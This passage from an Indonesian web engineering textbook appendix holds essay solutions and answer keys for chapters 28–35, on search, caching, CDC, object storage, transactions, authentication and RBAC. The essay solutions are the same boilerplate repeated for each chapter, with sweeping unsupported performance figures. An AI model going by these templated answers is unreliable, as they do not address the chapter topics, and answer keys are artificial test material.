| **5** | **A** | Pembersihan stop-words menyingkirkan kata hubung umum yang tidak bermakna spesifik untuk menghemat ruang indeks. |
| **6** | **A** | Parameter b pada BM25 mengontrol penalti normalisasi panjang dokumen terhadap dokumen panjang. |
| **7** | **A** | Fungsi ts_headline menghasilkan potongan teks ringkas di sekitar kata kunci dengan penanda sorotan visual. |
| **8** | **A** | Operator boolean & (AND) mengharuskan dokumen memuat seluruh kata dasar yang dicari pembaca. |
| **9** | **A** | Pencarian menggunakan Inverted Index WidyaBase pada 1 juta dokumen rata-rata selesai dalam 3.5 milidetik. |
| **10** | **A** | Pendaftaran akronim khusus ke kamus mencegah pemotongan singkatan secara keliru oleh aturan morfologi umum. |

---

## BAGIAN D.28: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 28

### Pembahasan Latihan Esai Bab 28

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 28, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 28

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Pencarian vektor AI memahami kesamaan makna konseptual kalimat meskipun tidak menggunakan kata kunci yang sama. |
| **2** | **A** | Graf HNSW mempercepat penemuan tetangga terdekat pada ruang vektor dengan kompleksitas waktu logaritmik O(log N). |
| **3** | **A** | Operator <=> pada kueri SQL WidyaBase digunakan untuk menghitung jarak kosinus (Cosine Distance) antar-vektor. |
| **4** | **B** | Model representasi semantik standar pada contoh di atas memetakan teks ke dalam vektor padat berdimensi 768. |
| **5** | **A** | Parameter m menentukan jumlah tautan koneksi dua arah maksimal per simpul graf pada lapisan dasar HNSW. |
| **6** | **B** | Jarak kosinus 0.05 setara dengan tingkat kemiripan semantik sebesar 95% (1.0 - 0.05). |
| **7** | **A** | Nilai Recall@10 sebesar 98% menandakan akurasi graf HNSW sangat mendekati algoritma pemindaian eksak lambat. |
| **8** | **A** | Proses komputasi inferensi vektor AI sangat intensif dan wajib didelegasikan ke pekerja antrean latar belakang. |
| **9** | **A** | Reciprocal Rank Fusion (RRF) menggabungkan peringkat leksikal BM25 dan peringkat semantik vektor secara adil. |
| **10** | **A** | WidyaBase HNSW rata-rata menemukan 10 artikel terkait dari 1 juta artikel arsip hanya dalam 1.6 milidetik. |

---

## BAGIAN D.29: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 29

### Pembahasan Latihan Esai Bab 29

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 29, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 29

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | WidyaBase KV mengadopsi protokol serialisasi REdis Serialization Protocol (RESP) untuk performa mikrodetik. |
| **2** | **A** | Cache Stampede terjadi saat kunci populer habis masa berlakunya dan ribuan permintaan menghantam database sekaligus. |
| **3** | **A** | Algoritma XFetch memperbarui kunci cache secara probabilistik sesaat sebelum kunci tersebut kedaluwarsa secara alami. |
| **4** | **A** | Dalam pola Cache-Aside, aplikasi bertanggung jawab mengoordinasikan pembacaan dan penulisan antara cache dan database. |
| **5** | **A** | Perintah EXPIRE atau SETEX menetapkan durasi kedaluwarsa (Time to Live) sebuah kunci dalam hitungan detik. |
| **6** | **A** | Cache Tagging mengelompokkan berbagai kunci cache terkait di bawah satu label kategori agar dapat dihapus sekaligus. |
| **7** | **A** | Latensi pembacaan data memori in-memory WidyaBase KV berada di bawah 100 mikrodetik saat Cache Hit. |
| **8** | **A** | Perintah SET key val NX PX ms digunakan untuk membuat penguncian terdistribusi atomik yang aman. |
| **9** | **A** | Perintah KEYS * memblokir thread eksekusi peladen selama memindai jutaan kunci dan dilarang di produksi. |
| **10** | **C** | Rasio Cache Hit yang sehat untuk portal berita nasional skala industri umumnya berada di atas 95%. |

---

## BAGIAN D.30: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 30

### Pembahasan Latihan Esai Bab 30

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 30, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 30

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | CDC adalah singkatan dari Change Data Capture. |
| **2** | **A** | Mesin CDC membaca mutasi baris data langsung dari berkas biner Write-Ahead Log (WAL) basis data. |
| **3** | **A** | Pola CDC mengeliminasi masalah Dual-Write (inkonsistensi data saat salah satu sistem gagal diperbarui). |
| **4** | **A** | Log Sequence Number (LSN) adalah pengenal unik posisi urutan linier dari rekod mutasi di dalam jurnal WAL. |
| **5** | **A** | Konfirmasi LSN memberi tahu database bahwa segmen WAL telah aman diproses sehingga berkas fisik WAL dapat dibersihkan. |
| **6** | **A** | Replikasi logikal menangkap seluruh operasi modifikasi data: INSERT, UPDATE, dan DELETE. |
| **7** | **A** | Slot replikasi yang tidak pernah dikonsumsi akan menahan berkas WAL di disk hingga menyebabkan disk penuh. |
| **8** | **A** | Peristiwa pembaruan kolom status menjadi published yang ditangkap CDC memicu notifikasi berita mendesak ke SSE. |
| **9** | **A** | CDC beroperasi berbasis dorongan peristiwa pasif tanpa kueri polling berkala yang membebani CPU database. |
| **10** | **A** | Urutan peristiwa CDC dijamin mutlak konsisten dan linier sesuai urutan transaksi yang dikomit ke WAL. |

---

## BAGIAN D.31: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 31

### Pembahasan Latihan Esai Bab 31

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 31, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 31

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Protokol S3 REST API adalah standar industri yang didukung oleh berbagai penyimpanan objek awan. |
| **2** | **A** | Direct-to-Storage Upload mengalirkan berkas media langsung ke Object Store tanpa membebani memori peladen web. |
| **3** | **A** | Penandatanganan presigned URL pada ekosistem S3 menggunakan standar AWS Signature Version 4 (SigV4). |
| **4** | **A** | Presigned upload URL pada implementasi di atas ditetapkan kedaluwarsa setelah 15 menit (900 detik). |
| **5** | **A** | Peramban mentransfer data biner ke endpoint presigned URL menggunakan metode HTTP PUT atau POST. |
| **6** | **A** | Validasi tipe MIME dan ekstensi berkas mencegah pengunggahan berkas biner yang berbahaya bagi sistem. |
| **7** | **A** | Pemberian nama berkas berstempel tanggal dan UUID mencegah tabrakan nama dan mempermudah partisi objek. |
| **8** | **A** | S3 Multipart Upload mengunggah berkas besar secara terpecah berkeping-keping secara paralel dan tangguh. |
| **9** | **A** | Tajuk Cache-Control: public, max-age=31536000, immutable memaksimalkan rasio hit singgahan aset media di CDN. |
| **10** | **A** | Edge CDN menyimpan salinan media di simpul terdekat pembaca guna memangkas latensi dan menghemat bandwidth. |

---

## BAGIAN D.32: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 32

### Pembahasan Latihan Esai Bab 32

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 32, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 32

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **D** | Tingkat isolasi Serializable menjamin eksekusi transaksi konkuren menghasilkan efek identik dengan eksekusi serial. |
| **2** | **A** | Atomicity menjamin seluruh mutasi berhasil secara utuh atau seluruhnya dibatalkan (Rollback) jika ada galat. |
| **3** | **A** | Klausa FOR UPDATE mengunci baris rekod secara eksklusif agar tidak diubah oleh transaksi paralel lain. |
| **4** | **A** | Naskah artikel VIP wajib disaring di sisi server agar pembaca tidak dapat melihat teks melalui fitur Inspect Element. |
| **5** | **B** | Perintah ROLLBACK membatalkan seluruh operasi transaksi yang sempat dijalankan jika terjadi kesalahan. |
| **6** | **A** | Fungsi GREATEST menjamin perpanjangan langganan dihitung dari tanggal akhir lama jika akun masih aktif. |
| **7** | **A** | Kunci idempoten mencegah mutasi saldo berlebih saat notifikasi pembayaran terkirim berulang kali. |
| **8** | **A** | Durability menjamin data transaksi yang berhasil dikomit tersimpan permanen di disk fisik dan tahan mati listrik. |
| **9** | **A** | Metered Paywall memberikan jatah membaca sejumlah artikel gratis per bulan sebelum pembaca diwajibkan berlangganan. |
| **10** | **A** | Pencatatan mutasi kredit dan debet berpasangan memenuhi standar audit akuntansi keuangan resmi. |

---

## BAGIAN D.33: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 33

### Pembahasan Latihan Esai Bab 33

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 33, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 33

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Ed25519 adalah skema tanda tangan kurva eliptis modern yang digunakan WidyaWeb untuk JWT berkinerja tinggi. |
| **2** | **A** | Kunci asimetris memungkinkan banyak layanan memverifikasi token hanya dengan kunci publik tanpa risiko kebocoran. |
| **3** | **A** | Standar WebAuthn (FIDO2 / Passkeys) mengizinkan otentikasi biometrik tanpa perlu mengetik kata sandi. |
| **4** | **A** | Masa aktif Access Token JWT jangka pendek pada implementasi di atas diatur selama 15 menit. |
| **5** | **A** | Refresh Token Rotation membatalkan token penyegar lama setiap kali digunakan guna mendeteksi pencurian token. |
| **6** | **A** | Atribut cookie HttpOnly mencegah skrip JavaScript peramban membaca token sehingga aman dari serangan XSS. |
| **7** | **A** | Klaim sub (Subject) pada payload JWT menyimpan pengenal unik identitas pengguna (User ID). |
| **8** | **A** | Ukuran fisik kunci publik Ed25519 sangat ringkas, yaitu tepat 32 Byte. |
| **9** | **A** | Kunci privat autentikasi biometrik tersimpan di dalam chip keamanan aman perangkat keras pengguna (TPM/Secure Enclave). |
| **10** | **A** | Access token berdurasi terlalu panjang sulit dicabut hak aksesnya jika dicuri tanpa mekanisme blacklist yang rumit. |

---

## BAGIAN D.34: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 34

### Pembahasan Latihan Esai Bab 34

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 34, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 34

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | RBAC adalah singkatan dari Role-Based Access Control. |
| **2** | **C** | Server mengembalikan status HTTP 403 Forbidden saat pengguna terautentikasi namun tidak memiliki izin memadai. |
| **3** | **A** | Izin atomik (article:publish) memisahkan kebijakan otorisasi dari kode logika bisnis sehingga fleksibel dikonfigurasi. |
| **4** | **A** | Karakter bintang (*) pada matriks izin mewakili hak istimewa untuk seluruh tindakan dalam suatu cakupan. |
| **5** | **A** | Pemimpin Redaksi memiliki wewenang penuh mencakup penghapusan rekod artikel berita. |
| **6** | **A** | Pembatasan article:edit_own mencegah jurnalis menyunting naskah investigasi milik rekannya tanpa izin. |
| **7** | **A** | Separation of Duties memastikan penerbitan berita publik memerlukan persetujuan dari editor, mencegah bias personal. |
| **8** | **A** | Middleware otorisasi dieksekusi sebelum handler fungsi bisnis dijalankan di lapisan controller. |
| **9** | **A** | 401 berarti identitas belum terautentikasi (belum login), sedangkan 403 berarti akses ditolak bagi identitas yang sah. |
| **10** | **A** | Pencatatan log pada kegagalan 403 Forbidden membantu mendeteksi upaya peretasan atau eskalasi hak istimewa. |

---

## BAGIAN D.35: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 35

### Pembahasan Latihan Esai Bab 35

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 35, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
